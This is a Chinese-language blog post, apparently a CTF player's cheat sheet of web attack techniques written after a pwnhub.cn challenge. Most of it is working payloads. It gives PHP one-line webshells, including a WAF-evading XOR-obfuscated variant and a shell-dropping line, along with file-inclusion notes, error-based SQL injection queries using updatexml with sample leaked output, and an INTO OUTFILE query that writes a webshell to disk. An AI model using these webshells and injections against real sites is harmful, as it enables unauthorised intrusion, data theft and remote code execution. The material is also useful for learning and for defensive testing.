```yaml
---
layout: post
title: 安恒杯武汉大学邀请赛fackfuzz Writeup
categories: [WEB]
description: WEB知识汇总贴
keywords: WEB
---
```


#WEB知识汇总贴

今天怼了一道pwnhub.cn的pwn题，然后那道pwn题最终是要利用一个sql注入。。然后今天学了各种WEB姿势，先开个帖，以后碰到以后总结

## 文件包含漏洞

典型值

```
index.php?page=xxx;
xxx可能是md5、也可能是文件名
文件包含漏洞可以直接读各种文件，也可以怼php伪协议执行任意php代码，上传webshell
```

## webshell的各种姿势

#### 各种一句话木马

```php
<?php echo system($_POST[1]);?>
---
POST 1=ls /home/ctf

<?php eval($_POST[1]);?>
<?php eval($_POST['passwd']);?> 
可以用菜刀直接连

<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[shell])?>');?>
可以改变木马等输出路径、也可以利用解析漏洞去解析木马

```

还有各种混淆版本，绕过waf，如

```php
<?php @$_++;
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");         // $__的值为_POST
@${$__}[!$_](${$__}[$_]);?>

```

也可以base64等各种编码解码。参考资料：

* http://www.91ri.org/11494.html
* http://www.mamicode.com/info-detail-1466690.html
* http://www.shangxueba.com/jingyan/1617540.html

菜刀不管用可以手动测试分析问题，有时候菜刀就是不管用

## 各种SQL注入

### 爆数据库名、表名、列名

```
select concat(group_concat(distinct schema_name)) from information_schema.schemata
select concat(group_concat(distinct table_name)) from information_schema.tables where table_schema=十六进制数据库名
select concat(group_concat(distinct column_name)) from information_schema.columns where table_schema=十六进制数据库名 and table_name=十六进制表名

```

### 报错注入 

如果能够回显SQL的错误信息，则可以通过报错注入爆各种想爆的信息

```
select * from TOKENS where PASSWORD = 1 and (updatexml(0x3a,concat(1,(select user())),1))
---
ERROR 1105 (HY000): XPATH syntax error: 'pwnhub@localhost'

```

```
insert into TOKENS (TOKENS,PASSWORD) VALUES('222',''+(select TOKENS from BID where TOKENS =1233 and (updatexml(0x3a,concat(1,(select @@secure_file_priv)),1))));
---
ERROR 1105 (HY000): XPATH syntax error: '/var/lib/mysql-files/'
```

```
insert into TOKENS (TOKENS,PASSWORD) VALUES('222',''+(select TOKENS from BID where TOKENS =1233 and (updatexml(0x3a,concat(1,(select concat(group_concat(distinct table_name)) from information_schema.tables where table_schema=0x646174657769746866697265)),1))))
---
ERROR 1105 (HY000): XPATH syntax error: 'BID,TOKENS'

```

更多详见http://www.cnblogs.com/Dleo/p/5493782.html

### SQL盲注

#### bool 盲注

### 利用SQL注入上传一句话木马

```
SELECT '<?php eval($_POST[1]);?>' INTO OUTFILE '/tmp/shell.php'

```
能否上传成功取决于select @@secure_file_priv的值，如果为空则在mysql层面上不做访问控制，如果为某目录则只能写到该目录中

```
select @@secure_file_priv
```

## 其他基础知识

### MYSQL相关

```
CREATE USER 'username'@'host' IDENTIFIED BY 'password';
grant all privileges on *.* to pwnhub@localhost
```